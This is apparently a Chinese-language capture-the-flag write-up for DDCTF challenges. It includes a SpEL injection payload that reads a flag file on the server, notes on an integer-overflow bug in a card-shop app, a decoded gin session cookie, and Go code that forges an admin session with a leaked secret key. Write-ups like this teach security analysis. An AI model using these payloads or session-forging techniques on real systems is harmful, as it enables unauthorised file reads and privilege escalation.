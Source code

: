 ```python
r=requests.post(burp0_url, headers=burp0_headers, json=burp0_json,proxies={"http":""})
print(r.text)
```

但是在这里我卡住了，因为client是用go写的我也理所当然的认为后端也是用

go写的，于是就去试go的各种eval框架都不行，最后还是在别人的提示下才走出误区（应该写一个测试SSTI，eval等等的fuzz字典），经过一天的折腾后发现是SPeL

去网上找到了Ying师傅的payload

`NEW java.util.Scanner(NEW java.io.BufferedReader(NEW java.io.FileReader(NEW java.io.File('/home/dc2-user/flag/flag.txt')))).nextLine()`

`DDCTF{Q24uf486whGOWN44UtZCjYUgdnnnRaVs}`

## 卡片商店

目标是让我们拿到100个卡片，但是有时间限制，利用借入和借出来获得100个卡片显然是不现实的。

刚开始想的是条件竞争，后来测试后发现不行，在这里我被卡住了。

继续测试发现，这里存在着整数溢出漏洞（卡片数是个大整数，而借入借出是个小整数），我们让卡片数不溢出，而借入数溢出，就可以得到许多卡片。接着我们得到了一个SecKey和获取flag的地址：`/flag`，但是需要我们是admin账号

`session:MTU5OTIyNTI5MXxEdi1CQkFFQ180SUFBUkFCRUFBQV80dl9nZ0FDQm5OMGNtbHVad3dJQUFaM1lXeHNaWFFHYzNSeWFXNW5ERlFBVW5zaWIzZHBibWR6SWpwYlhTd2lhVzUyWlhOMGN5STZXMTBzSW0xdmJtVjVJam93TENKdWIzZGZkR2x0WlNJNk1UVTVPVEl5TlRJNU1Td2ljM1JoY25SZmRHbHRaU0k2TVRVNU9USXlOVEk1TVgwR2MzUnlhVzVuREFjQUJXRmtiV2x1QkdKdmIyd0NBZ0FBfMaqAqFFw43-8z8EcAFY04oenUI0FyhjaW8KZXGH2uSX`

对session进行解密发现,他的格式类似：`base64encode(timestamp|base64urlencode(gob)|check)`

利用https://gitlab.com/drosseau/degob 获得gob内容

`map[interface{}]interface{}{"admin": false,"wallet": "{"owings":[{"OwingMoney":100000,"NeedMoney":100002,"OwingTime":1599223614}],"invests":[{"InvestMoney":100006,"ReceiveMoney":100009,"InvestTime":1599223644}],"money":0,"now_time":1599222955,"start_time":1599222835}"}`

显然我们需要修改admin的值，在云屿师傅的帮助下知道了这是一个gin生成的session

```go
package main

import (
        "github.com/gin-contrib/sessions"
        "github.com/gin-contrib/sessions/cookie"
        "github.com/gin-gonic/gin"
)

func main() {
        r := gin.Default()
        store := cookie.NewStore([]byte("Udc13VD5adM_c10nPxFu@v12"))
        r.Use(sessions.Sessions("session", store))

        r.GET("/incr", func(c *gin.Context) {
                session := sessions.Default(c)
                var count bool
                v := session.Get("admin")
                if v == nil {
                        count = true
                } else {
                        count = v.(bool)
                        count = true
                }
                session.Set("admin", count)
                session.Save()
                c.JSON(200, gin.H{"admin": count})
        })
        r.Run(":8000")
}
```